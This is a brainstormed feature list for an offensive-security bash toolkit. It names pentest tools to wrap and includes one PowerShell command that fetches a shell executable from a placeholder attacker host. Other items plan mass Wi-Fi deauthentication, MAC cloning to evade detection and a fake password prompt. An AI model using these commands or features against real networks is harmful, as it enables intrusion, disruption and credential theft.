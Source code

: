 # Future Features

**This is the taks schedule, if you need something that is not on that list you have three options:**\
**1 -** You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.\
**2 -** If you need urgency, you can write the code and send it to me.\
**3 -** Pay me to implement the feature.\

**This list is constantly evolving, so duplicate items or grammatical errors are common here. Imagine this page as a great brainstorm.**\
**If you have any ideas, you can branch this page and commit to me. If the idea is good, I will implement**\

**1 -** The change mac menu is not working? Check this\
**2 -** Change and test torghost option to torghostNG\
**3 -** Implement Jhon the reaper here, there is a logic on my notion page\
**4 -** Change al the things that i need to chose an wifi card to the already developed selectedwificard\
**5 -** Study and implment nmap(Don't forget to make some funcion using -sS --script vuln) and put a option to chose the type of verbosity\
**6 -** Study and implment some functions using psexec.py\
**7 -** Study and implement mssqlclient.py.\
**8 -** There are other great tools in inpackt? like psexec and mssqlclient, check and implement.\
**9 -** Implement a menu to creat an temporary server using python, like python3 -m http.server 80, and the path to the server\
**10 -** Revist the script, read top from boton and see what can be done better\
**11 -** Change all the variables in the script to lowercase, its a best pratice\
**12 -** Check if there is a way to implment automatizations in metasploit here, to automate some tasks\
**13 -** Study and implement GoBuster, but, what i do about dirbuster?\
**14 -** Implement a menu for airodump and aircrack, to show conections, put in monitor mode and other functions\
**18 -** Implement Hydra, there is a logic in my Notion page\
**19 -** If i choose to mantin dirsearch, maybe i will need to put as root because the logs are not saving correctly\
**20 -** Revist the script, read top from boton and see what can be done better\
**21 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**22 -** Replace where is "test" for [[comand]]. Test is a obsolete function\
**22 -** Study and implment the crunch password, its great to create password lists\
**23 -** Revitalize the menu, style is everithing.\
**24 -** Study who to implement pyshark here, or maybe wait until this script be reworked in python\
**25 -** Study and implement responder.py\
**26 -** Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script\
**27 -** Study and implement hashcat\
**27 -** Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness\
**28 -** Replace all echos for printf, its better\
**29 -** See how i avoid to use eval, its too bat for security\
**30 -** Revist the script, read top from boton and see what can be done better\
**31 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**32 -** Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile\
**33 -** Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux\
**34 -** Study Msfvnom and implement, it is an excelent payload generator[:]\
**35 -** Study and implent pwncat\
**36 -** Create a menu with utilstuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell\
**37 -** study the best directory wordlist, to use in dirbuster or afuzz, or another tool\
**38 -** Study and implement wpscan, its a good tool to break into wordpress sites\
**39 -** Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some already created linux tools for this maybe only implement is suficient\
**40 -** Revist the script, read top from boton and see what can be done better\
**41 -** Study and implement rustscan, its a realy good tool.\
**42 -** Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts\
**43 -** Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti\
**44 -** Create a Function who update the script with the last features implemented in the github version\
**45 -** If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible\
**46 -** Organize the menu in a better way, is too confuse\
**47 -** Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"\
**48 -** Study massscan, its good for mass scaning ports, or rustscan? What is better?\
**49 -** Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about\
**50 -** Revist the script, read top from boton and see what can be done better\
**51 -** Study and implement msfvenom its a great tool to make palyloads\
**52 -** Study and implement nikto\
**53 -** Study and implement termshark, its good to see pcaps in terminal\
**54 -** Study and implement FFUF, its really fast because its in go\
**55 -** Implement option so search ".bak" in in websearches, it really good to see some codes, in cgi-bin its good to search for .sh for exemplo because shell shock atacks\
**56 -** Study and implement Uchecker, its a good tool to check for not uptodate tools on servers\
**57 -** Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users\
**58 -** Study and implment sublist3r, its a really great scanner for subdomains ussing ossint\
**59 -** Study and implment nikton its a good webscaner\
**60 -** Revist the script, read top from boton and see what can be done better\
**61 -** Study and implment social engenner tookit, its really god to work with social engineer\
**62 -** Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter\
**63 -** Implement wfuzz its preaty great\
**64 -** Study and Implement Sqlmap\
**65 -** Implement te 'sectlist' program from kali, its copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?\
**66 -** Study and implent enum4linux, its preaty good to use to enumerate samba shares\
**67 -** Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose\
**68 -** Study and implement sherlock, its a great tool for OSINT\
**69 -** Study and implement airgedon its good to do deauth atacks in softwarey\
**70 -** Revist the script, read top from boton and see what can be done better\
**71 -** What i can do to make this script more beautiful? Maybe some colors or ident?\
**72 -** Maybe Implement RustScan? Its so fast
